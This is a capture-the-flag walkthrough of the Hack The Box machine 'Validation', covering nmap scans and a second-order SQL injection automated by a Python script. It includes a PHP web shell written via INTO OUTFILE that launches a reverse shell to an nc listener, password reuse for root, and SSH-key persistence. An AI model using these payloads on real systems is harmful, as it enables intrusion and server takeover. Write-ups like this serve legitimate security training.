

+++
title = "Validation"
date = "2023-12-03"
description = "This is an easy Linux box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Linux

**Release date**: 2021-09-13

**Created by**: [ippsec](https://app.hackthebox.com/users/3769)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great
practice security-wise, but it's a VM so it's alright. This way I won't have to
prefix some commands with `sudo`, which gets cumbersome in the long run.

I like to maintain consistency in my workflow for every box, so before starting
with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box.
   I'll call it `workspace`, and it will be located at the root of my filesystem
   `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll use
   `httpsimpleserver` to create an HTTP server on port `80` and
   `impacket-smbserver` to create an SMB share named `server`. This will make
   files in this folder available over the Internet, which will be especially
   useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory.
   This will come in handy once we get a foothold, for privilege escalation and
   for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the
complexity of some exploits, and prefer a more manual approach when it's not too
much hassle. This way, I'll have a better understanding of the exploits I'm
running, and I'll have more control over what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.9`. The
commands ran on my machine will be prefixed with `❯` for clarity, and if I ever
need to transfer files or binaries to the target machine, I'll always place them
in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Host `10.10.11.116`

## Scanning

### Ports

As usual, let's start by initiating a port scan on Validation using a TCP SYN
`nmap` scan to assess its attack surface.

```sh
❯ nmap -sS "10.10.11.116" -p-
```

```
<SNIP>
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
4566/tcp open     kwtc
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
5005/tcp filtered avt-profile-2
5006/tcp filtered wsm-server
5007/tcp filtered wsm-server-ssl
5008/tcp filtered synapsis-edge
8080/tcp open     http-proxy
<SNIP>
```

Let's also check the 500 most common UDP ports.

```sh
❯ nmap -sU "10.10.11.116" --top-ports "500"
```

```
<SNIP>
```

### Fingerprinting

Following the ports scans, let's gather more data about the services associated
with the open TCP ports we found.

```sh
❯ nmap -sS "10.10.11.116" -p "22,80,4566,5000,5001,5002,5003,5004,5005,5006,5007,5008,8080" -sV
```

```
<SNIP>
PORT     STATE    SERVICE        VERSION
22/tcp   open     ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http           Apache httpd 2.4.48 ((Debian))
4566/tcp open     http           nginx
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
5005/tcp filtered avt-profile-2
5006/tcp filtered wsm-server
5007/tcp filtered wsm-server-ssl
5008/tcp filtered synapsis-edge
8080/tcp open     http           nginx
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
<SNIP>
```

Alright, so `nmap` managed to determine that Validation is running Linux, and
the version of SSH suggests that it might be Ubuntu.

### Scripts

Let's run `nmap`'s default scripts on the TCP services to see if they can find
additional information.

```sh
❯ nmap -sS "10.10.11.116" -p "22,80,4566,5000,5001,5002,5003,5004,5005,5006,5007,5008,8080" -sC
```

```
<SNIP>
PORT     STATE    SERVICE
22/tcp   open     ssh
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open     http
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
4566/tcp open     kwtc
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
5005/tcp filtered avt-profile-2
5006/tcp filtered wsm-server
5007/tcp filtered wsm-server-ssl
5008/tcp filtered synapsis-edge
8080/tcp open     http-proxy
|_http-title: 502 Bad Gateway
<SNIP>
```

## Services enumeration

### Apache

#### Exploration

Let's browse to `http://10.10.11.116/`.


It's a website for registering to the September qualifiers of a contest.

#### Fingerprinting

Let's fingerprint the technologies used by this website with the
[Wappalyzer](https://www.wappalyzer.com/) extension.



This reveals that this website is using PHP version `7.4.23`.

#### Exploration

We can fill a form with a username and a country from a pre-defined list to
register.

Let's enter a random username and see what happens:


We're redirected to `/account.php`, and we see all the players who registered in
Brazil.

#### Under the hood

If we check the previous requests using Burp Suite, we notice that when we sign
up with a username, a POST request is sent to `/` with the parameters:

```html
username=<USERNAME>&country=<COUNTRY>
```

Then, the Apache web server redirects us to `/account.php` and sets the `user`
cookie to a specific value.

It turns out that the `user` cookie is set to the MD5 hash of the username we
entered. I tried to set it to the MD5 value of `admin`, but it failed.

#### SSTI

Since our input is rendered and reflected in the response, maybe the website is
vulnerable to SSTI. Let's check for it by entering the following payloads:

```
{{7*7}} ${7*7} <%= 7*7 %> ${{7*7}} #{7*7} *{7*7}
```

Unfortunately, this is what we get:


None of the mathematical expressions we entered is computed, which means that
there's no SSTI here.

#### SQLi

##### Test

Since we're able to see who registered in the same country as us, there must be
a database used to store the players and the associated countries.

Let's fiddle a bit with our input to see if we can alter anything. Let's start
by entering `foo'` as the username:


Well, we see no errors. What about `foo"` then?


Still no errors! Maybe this website is secure against SQLi...

Or is it? We only tried to change the `username` parameter but no the `country`,
since the frontend prevents us from editing it. Let's replay the POST request
using Caido, and enter `Brazil'` as the country.


Let's set our `user` to the cookie in the response and browse to
`http://10.10.11.116/account.php`.


It's hard to read since it's written in black, but there's an error message! It
looks like the SQL query is unfinished. So this website must be vulnerable to a
second-order SQLi!

It also dicloses that the error happened at the line `33` of the
`/var/www/html/account.php` file, more specifically in the `fetch_assoc()`
function.

##### Query

We can assume that the SQL query used to return the registered players looks
like this:

```sql
SELECT username FROM players WHERE country = "<COUNTRY>";
```

In order to execute custom SQL queries, we can use the `UNION` keyword to chain
two of them and to append the results to the original query. However, the
individual queries must return the same number of columns. In order to find it,
we can use a `UNION SELECT` payload specifying a different number of null
values.

We don't know which database the web server is using though, so let's use
standard comments `--` to comment out the rest of the query.

#### Number of columns

Let's try to enter the URL encoded result of `Brazil' UNION SELECT NULL; -- -`
to see if the number of columns is `1`.


The last bullet point is followed by nothing, so it worked! There's indeed `1`
column in the table.

#### Script

It's a but cumbersome to enter the URL encoded payload on Burp Suite and then to
retrieve the response on a web browser though. Let's use a Python script to
automate that:

```py
import requests
from bs4 import BeautifulSoup
from cmd import Cmd


# Define a custom command-line interpreter class
class MyCmd(Cmd):
    # Set the prompt for the command-line interface
    prompt = "> "

    # Define the default behavior for handling input
    def default(self, line):
        # Define the target URL
        url = "http://10.10.11.116/"

        # Create a dictionary containing the payload for the SQL injection
        data = {"username": "foo", "country": "Brazil' UNION " + line + "; -- -"}

        # Send a POST request with the payload to the target URL
        response = requests.post(url, data=data)

        # Parse the HTML response using BeautifulSoup
        soup = BeautifulSoup(response.text, "html.parser")

        # Check if the response contains a <li> element
        if soup.li:
            # Print the text content of all <li> elements found in the response
            print("\n".join([x.text for x in soup.findAll("li")]))

    # Define behavior for an empty line (do nothing)
    def emptyline(self):
        pass

    # Define behavior for the 'exit' command
    def do_exit(self):
        # Return True to exit the command loop
        return True


# Entry point of the script
if __name__ == "__main__":
    # Create an instance of the custom command-line interpreter and start the command loop
    MyCmd().cmdloop()
```

I'll save it as `sqli.py` and I'll reset the box to clear all my previous SQLi
attempts and have a cleaner output. Then, I'll run this script.

### MariaDB

Let's explore the database we got access to using our SQLi.

#### Version

First, we want to know which database and which version Validation is using to
store the registrations, in order to choose the correct commands.

```sql
> SELECT @@version
```

```
10.5.11-MariaDB-1
```

Alright! So this is MariaDB version `10.5.11`, a fork of MySQL.

#### Databases

Now, let's see which databases are available.

```sql
> SELECT schema_name FROM information_schema.schemata
```

```
information_schema
performance_schema
mysql
registration
```

So this instance contains four databases. Only of them is a non-default MySQL
database though: `registration`.

#### `registration`'s tables

Let's see which tables are included in this database.

```sql
> SELECT table_name FROM information_schema.tables WHERE table_schema = 'registration'
```

```
registration
```

So there's a single table named `registration`, like the name of the database.

#### `registration`'s columns

Let's continue our enumeration of this database by checking the content of the
table we discovered.

```sql
> SELECT column_name FROM information_schema.columns WHERE table_name = 'registration'
```

```
username
userhash
country
regtime
```

Alright, so this table holds four columns. Their names are not really
interesting though, it doesn't look like we will find a password or anything to
connect to Validation. If we explore them, we see that we were correct: these
columns simply contain the values for our registration.

So the content of this database is useless to us.

#### User

Let's check the name of the current user we have access to in the context of the
database session.

```sql
> SELECT user()
```

```
uhc@localhost
```

We're `uhc`. The `localhost` confirms that this database is hosted locally on
Validation.

#### Permissions

Let's check our permissions. Maybe we'll find something interesting?

```sql
> SELECT privilege_type FROM information_schema.user_privileges WHERE grantee = "'uhc'@'localhost'"
```

```
SELECT
INSERT
UPDATE
DELETE
CREATE
DROP
RELOAD
SHUTDOWN
PROCESS
FILE
REFERENCES
INDEX
ALTER
SHOW DATABASES
SUPER
CREATE TEMPORARY TABLES
LOCK TABLES
EXECUTE
REPLICATION SLAVE
BINLOG MONITOR
CREATE VIEW
SHOW VIEW
CREATE ROUTINE
ALTER ROUTINE
CREATE USER
EVENT
TRIGGER
CREATE TABLESPACE
DELETE HISTORY
SET USER
FEDERATED ADMIN
CONNECTION ADMIN
READ_ONLY ADMIN
REPLICATION SLAVE ADMIN
REPLICATION MASTER ADMIN
BINLOG ADMIN
BINLOG REPLAY
SLAVE MONITOR
```

Our command returned a bunch of permissions, but one stands out from the rest:
`FILE`.

## Foothold (SQLi)

We just found out that we have the rights to read and write to files. This means
that in theory, we should be able to write our own files on the web server!

### Preparation

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the Base64 encoded version of the 'Bash -i' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

We still need to find a way to execute our payload. Luckily we know that the
website is using PHP, so it should be pretty easy to obtain one by executing our
payload as an OS command like that:

```php
<?php system('/bin/echo <BASE64_REVSHELL_PAYLOAD> | /usr/bin/base64 -d | /bin/bash -i') ?>
```

### Exploitation

Let's use our script to write our payload into a `revshell.php` file:

```sql
> SELECT "<?php system('/bin/echo <BASE64_REVSHELL_PAYLOAD> | /usr/bin/base64 -d | /bin/bash -i') ?>" INTO outfile "/var/www/html/revshell.php"
```

Now let's trigger our payload.

```sh
❯ curl -s -o "/dev/null" "http://10.10.11.116/revshell.php"
```

If we check our listener:

```
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.116] 55896
<SNIP>
www-data@validation:/var/www/html$
```

It caught the reverse shell!

### Spawning a tty

Let's use this one-liner to spawn a tty:

```sh
/usr/bin/script "/dev/null" -qc "/bin/bash"
```

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `www-data`.

### Architecture

What is Validation's architecture?

```sh
www-data@validation:/var/www/html$ uname -m
```

```
x86_64
```

It's using x86_64. Let's keep that in mind to select the appropriate binaries.

### Distribution

Let's see which distribution Validation is using.

```sh
www-data@validation:/var/www/html$ cat "/etc/os-release"
```

```
PRETTY_NAME="Debian GNU/Linux 11 (bullseye)"
NAME="Debian GNU/Linux"
VERSION_ID="11"
VERSION="11 (bullseye)"
VERSION_CODENAME=bullseye
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```

Okay, so it's Debian 11.

### Kernel

Let's find the kernel version of Validation.

```sh
www-data@validation:/var/www/html$ uname -r
```

```
5.4.0-81-generic
```

It's `5.4.0`.

### Users

Let's enumerate all users.

```sh
www-data@validation:/var/www/html$ grep ".*sh$" "/etc/passwd" | cut -d ":" -f "1" | sort
```

```
root
```

There's only `root`.

### Groups

Let's enumerate all groups.

```sh
www-data@validation:/var/www/html$ cat "/etc/group" | cut -d ":" -f "1" | sort
```

```
adm
audio
backup
bin
cdrom
daemon
dialout
dip
disk
fax
floppy
games
gnats
irc
kmem
list
lp
mail
man
messagebus
mysql
news
nogroup
operator
plugdev
proxy
root
sasl
shadow
src
ssh
staff
sudo
sys
systemd-journal
systemd-network
systemd-resolve
systemd-timesync
tape
tty
users
utmp
uucp
video
voice
www-data
```

### NICs

Let's gather the list of connected NICs.

```sh
www-data@validation:/var/www/html$ ip a
```

```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
21: eth0@if22: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:15:00:0a brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.21.0.10/16 brd 172.21.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

There's an Ethernet interface and the loopback interface.

### Hostname

What is Validation's hostname?

```sh
www-data@validation:/var/www/html$ hostname
```

```
validation
```

Yeah I know, very surprising.

## System enumeration

### Flags

If we check the home folders, we find one for `htb` containing the user flag.

```sh
www-data@validation:/var/www/html$ cat "/home/htb/user.txt"
```

```
9600ec6c4ae4462a970fb7eec314d673
```

### Website code review

Let's review the content of the Apache website, located at `/var/www/html`.

```php
<?php
require('config.php');
if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $userhash = md5($_POST['username']);
    $sql      = "INSERT INTO registration (username, userhash, country, regtime) VALUES (?, ?, ?, ?)";
    $stmt     = $conn->prepare($sql);
    $stmt->bind_param("sssi", $_POST['username'], $userhash, $_POST['country'], time());
    if ($stmt->execute()) {
        ;
        setcookie('user', $userhash);
        header("Location: /account.php");
        exit;
    }
    $sql  = "update registration set country = ? where username = ?";
    $stmt = $conn->prepare($sql);
    $stmt->bind_param("ss", $_POST['country'], $_POST['username']);
    $stmt->execute();
    setcookie('user', $userhash);
    header("Location: /account.php");
    exit;
}
?> 
<SNIP>
```

The `index.php` file contains the source code for the homepage of the website.
The PHP part does exactly what we identified during our exploration of the
server: it creates a MD5 hash of the username, adds the username, username hash
and country into the `registration` MariaDB table, sets the `user` cookie to the
username hash, and redirects to `/account.php`.

```php
<SNIP>
<?php
include "config.php";
$user = $_COOKIE["user"];
$sql  = "SELECT username, country FROM registration WHERE userhash = ?";
$stmt = $conn->prepare($sql);
$stmt->bind_param("s", $user);
$stmt->execute();

$result = $stmt->get_result(); // get the mysqli result
$row    = $result->fetch_assoc(); // fetch data
echo '<h1 class="text-white">Welcome ' . $row["username"] . "</h1>";
echo '<h3 class="text-white">Other Players In ' . $row["country"] . "</h3>";
$sql    = "SELECT username FROM registration WHERE country = '" . $row["country"] . "'";
$result = $conn->query($sql);
while ($row = $result->fetch_assoc()) {
    echo "<li class='text-white'>" . $row["username"] . "</li>";
}
?>
<SNIP>
```

The `account.php` file is responsible for showing all the registered players
with the same country. In fact, it reads the username hash of the user from the
request `user` cookie, fetches all the players who registered with the same
country, and shows the result.

```php
<?php
$servername = "127.0.0.1";
$username   = "uhc";
$password   = "uhc-9qual-global-pw";
$dbname     = "registration";

$conn = new mysqli($servername, $username, $password, $dbname);
?> 
```

The `config.php` file is included in the previous two PHP files we inspected,
since it holds the configuration for the MariaDB requests! It also shows in
cleartext the password used to connect to the database!

## Privilege escalation (Impersonation)

I tried the `uhc-9qual-global-pw` password to connect to Validation over SSH as
`root`, but it failed.

However, if we try it to impersonate `root` on the system...

```sh
www-data@validation:/var/www/html$ su -
```

```
Password: uhc-9qual-global-pw
root@validation:~#
```

It works!

### Establishing persistence

Let's use SSH to establish persistence.

Our home folder contains a `.ssh` folder. There's no existing private key, so
I'll create one, and I'll add the corresponding public key to `authorized_keys`.
Finally, I'll connect over SSH to Validation as `root`.

## System enumeration

If we run `whoami`, we see that we're `root`!

### Flags

As usual, we can find the root flag in our home folder.

```sh
root@validation:~# cat "/root/root.txt"
```

```
3fa34b1ae338017aa7dae70cdf12d07e
```

# Afterwords


That's it for this box! 🎉

I rated the user flag as 'Easy' and the root flag as 'Very easy'. The foothold
was quite easy to find and to exploit. The privilege escalation was also very
easy to find since it only required proper enumeration, but having the idea of
directly impersonating `root` on the system was slightly harder.

Thanks for reading!
